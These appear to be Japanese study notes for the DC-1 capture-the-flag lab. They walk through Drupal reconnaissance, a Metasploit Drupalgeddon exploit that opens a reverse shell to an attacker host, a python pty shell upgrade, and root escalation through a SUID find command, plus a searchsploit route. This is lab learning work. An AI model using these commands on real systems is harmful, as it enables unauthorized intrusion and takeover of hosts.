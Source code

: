 ## DC-one 410~
- ポートスキャンまでいつもと同じ
  - 20, 80, 111

### Webサイトをチェックする
  - robots.txtを見る。これはクローラーがサイトをクローリングしてもいいかを判断できるサイト
  - サイトの作成ソフトとおおよそのバージョンがわかる
  - drupalは有名なwebサイトの構築ソフト
### droopescan
  - droopescanはPythonベースのセキュリティスキャナでDrupal,wordpress,Joomlaで使える。より細かいバージョンがわかって、そこからwebサイトを構築している脆弱性を発見できることがある
  - `/home/user/.local/bin/droopescan scan drupal -u $URL`
  - 結構時間かかる
  - versin 7.22~7.26ということがわかる
### 攻略1(Metasploitをネットで調べる)
  - drupalに脆弱性があるかもしれない
  - 調べるだけなのでインターネットにつながっているなら何でもいい 
  - `Exploit Database`を検索して、`drupal 7 remote`でsearchする
  - drupalgeddonを使うのでメモっておく
- metasploitを使う
  - ParrotOSのシェルで
  - `msfconsole`
  - どこにdrupalgeddonあるか調べる `search type:exploit drupal` Pathを覚えておく
  - `use exploit/multi/http/drupal_drupageddon`
  - `set RHOSTS 192.168.56.103` ターゲット側端末
  - `set LHOST 192.168.56.102` 攻撃側端末
  - `run`
  - シェルを取得できるが、これはダムシェルと言って機能がとても悪いシェルである。次のコマンドをやってみる これはOSを調べるコマンドである `uname -a`、使えないので、いつも使っているようなシェルにする
- 攻略1はここまで
### Pythonのptyで対話シェルに切り替え
  - `shell`
  - Pythonを呼び出してシェルを呼び出す
  - `python -c 'import pty; pty.spawn("/bin/bash")'`
  - 対話シェルに切り替わる
### システムの探索
- OSの特定
  - `uname -a` 
- ファイルを探す
  - .bash_history
- `sudo -l`をやってみる
- SUIDファイルを検索
  - `find / -perm -u=s -type f 2> /dev/null` 
### findコマンドでrootシェルの取得
  - GTFOBinsのWebサイトから     `find`を検索
  - `which find`
  - `/usr/bin/find . -exec /bin/bash -p \; -quit`
    - `-p`は出力がPosix表示になる 
  - root権限の取得
### Flagを探して表示
  - `cat /root/thefinalflag.txt`  

## 攻略2(metasploitのところ)
- `searchsploit drupal 7 remote`
- `.py`,`.rb`がコマンドで、`.txt`は説明
- シェルの取得を目的でdrupalのバージョンから、このモジュールを探す -> php/webapps/35150.php
- `searchsploit -m パスの番号`
  - `searchsploit -m 35150`
  - ファイルがダウンロードされるので実行する
